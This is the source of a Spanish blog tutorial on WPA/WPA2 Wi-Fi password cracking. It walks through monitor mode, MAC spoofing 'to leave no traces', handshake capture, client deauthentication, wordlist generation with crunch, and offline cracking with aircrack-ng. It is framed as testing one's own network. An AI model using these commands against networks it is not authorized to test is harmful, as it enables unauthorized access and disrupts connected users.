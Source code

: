 ```yaml
---
layout: single

title: Hacking Wifi - Pentesting Wifi

excerpt: "**El ataque que presento**
consiste en obtener el handshake WPA/WPA2 que se lleva a cabo entre las estaciones (clientes Wi-Fi) y el BSSID (punto de acceso) para intercambiar la clave compartida de cifrado de la red Wi-Fi durante la fase de autenticación, y luego intentar romperlo off-line mediante un diccionario de contraseñas."
date: 2022-07-29

classes: wide

header:

    teaser: /assets/images/wifi/logo.png

    teaser_home_page: true
    
    icon: /assets/images/logofairy.png

categories:

    - Wifi Slax
    - Kali Linux
    - Hacking Wifi
    - Wifi
    - Pentesting

tags:  

- Hacking Wifi
---
```


![](/assets/images/wifi/wallpapers.png)

La idea de esta guía es comprobar la seguridad de una red wifi. 

Para comenzar con esta practica se necesita una distribución GNU/Linux, la suite de software de seguridad inalámbrica **Aircrak-ng** y **Macchanger**.

* GNU/Linux: Recomiendo un live de Kali Linux o Wifi Slax.
* AIRCRACK-NG: Suite de software de seguridad inalámbrica. 
* MACCHANGER: Permite cambiar la Dirección **MAC** de una interfaz.

En caso de que se use alguna distribución de las cuales no son orientadas a la seguridad informática, se puede instalar las herramientas de la siguiente manera:

```bash
apt install aircrak-ng macchanger
```

El equipo que utilizo para este ejemplo es una Netbook de conectar igualdad.


![](/assets/images/wifi/debian.png)


## Modo Monitor

El modo monitor permite capturar los paquetes que viajan en el aire y obtener la MAC de los dispositivos que se están comunicando.

Hay que distinguir entre el **ESSID** que generalmente es el nombre que hace referencia al la red WiFi y el **BSSID** que hace referencia a la dirección MAC del dispositivo.

Con este modo se puede obtener información de los clientes denominados estaciones, que se encuentran dentro de una red WiFi y sus respectivas **MAC**.


Para poner la tarjeta WiFi en ""modo monitor" es necesario conocer el nombre de la interfaz:


```bash
sudo ifconfig
```
![](/assets/images/wifi/ifconfig.png)

Como se puede observar en la imagen el nombre de mi interfaz es **wlp3s0**, y para activar el "modo monitor" se debe ejecutar el siguiente comando:

```bash
sudo airmon-ng start wlp3s0
```
![](/assets/imagen/wifi/monitor.png)

Ahora, el nombre de la interfaz cambio a **wlp3s0mon**. Este nombre se debe a que la interfaz se encuentra en "modo monitor".

Si se ejecuta el comando _ifconfig_ se puede ver la descripción de la interfaz monitor. 

Teniendo en cuenta que el ataque se realizara a través de esta interfaz, no se debe dejar huellas.

Con **macchanger** se puede asignar una nueva dirección **mac** aleatoria a cualquier
interfaz. Para lograrlo hay que seguir tres pasos:

* apagar la interfaz.
* cambiar la dirección mac.
* prender la interfaz.

```bash
sudo ifconfig wlp3s0mon down
sudo macchanger -a wlp3s0mon
sudo ifconfig wlp3s0mon up
```
![](/assets/images/wifi/macchanger.png)

Ahora que todo esta configurado correctamente es hora de analizar el trafico que pasa por el aire.

![](/assets/images/wifi/airodump-ng.png)

* **PWR** hace referencia al "power". Cuanto mas bajo sea el valor, mejor es la señal que se recibe.

Escoger una red:

**airodump-ng --channel "numero" -w "archivo" --bssid "mac_wifi" wlp3s0mon** 

* **- -channel** el canal que utiliza la red wifi.
* **-w** nombre del archivo donde se guardara información.
* **- -bssid** mac del router.
* **wlp3s0mon** nombre de la interfaz monitor.

```bash
airodump-ng --channel 1 -w wifi-casa --bssid xx:xx:xx:xx wlp3s0mon
```
![](/assets/images/wifi/airodump-wifi-casa.png)

Dentro del directorio donde se esta ejecutando el ataque se crearon varios archivos, entre los cuales solo sera útil el que finaliza con extención **.cap** cuando se logre obtener el **HANDSHAKE**.

![](/assets/images/wifi/ls.png)

## des-autenticación

El proceso para poder obtener el password de la red WiFi es desconectar a un cliente de la red con un ataque de **des-autenticación** generado por nuestro ordenador.

Utilizando **aireplay** se puede des-autenticar a un cliente de una red.

La sintaxis del comando es:

**aireplay-ng --deauth 4 -a "mac-wifi" -c "mac-cliente" wlp3s0mon**

```bash
sudo aireplay-ng --deauth 4 -a ec:e4:b4:xx:xx:xx -c e4:g3:xx:xx:xx:xx wlp3s0mon
```

![](/assets/images/wifi/deauth.png)

Con esto se logra capturar el **HANDSHAKE** al caul por medio de un diccionario de furza bruta se podrá obtener la clave de la red WiFi.

El tiempo que puede llevar crackear el **HANDSHAKE** dependerá de la potencia del **CPU**.

## Diccionario

Para crear un diccionario usare la herramienta **crunch**, la cual viene por defecto en las distribuciones orientadas al pentesting.
 
su sintaxis es la siguiente:

**crunch [nin] [max] [caracteres] -t [patron] -o [nombre del archivo]**

Dado que se cual es el password de mi red WiFi creare un pequeño diccionario de números.

```bash
crunch 8 8 0123456789 -t 36@@@@@@ -o diccionario
```

![](/assets/images/wifi/diccionario.png)

El diccionario generado cuenta con miles de contraseñas de 8 dígitos.

![](/assets/images/wifi/diccionario2.png)

## Crackear

Para crackear el **handshake** que se capturo, la sintaxis del comando es la siguiente:

**aircrack-ng handshake.cap -w diccionario**

```bash
sudo aircrack-ng wifi-casa-06.cap -w diccionario
```
![](/assets/images/wifi/crack.png)
![](/assets/images/wifi/crack1.png)

Para salir del modo monitor es necesario apagar el modo monitor de la tarjeta wifi.
 
```bash
sudo airmon-ng stop wlp3s0mon
```

Para conocer mas sobre la suite de aircrack-ng se puede visitar su pagina web.

- [Aircrack-ng](https://www.aircrack-ng.org/)
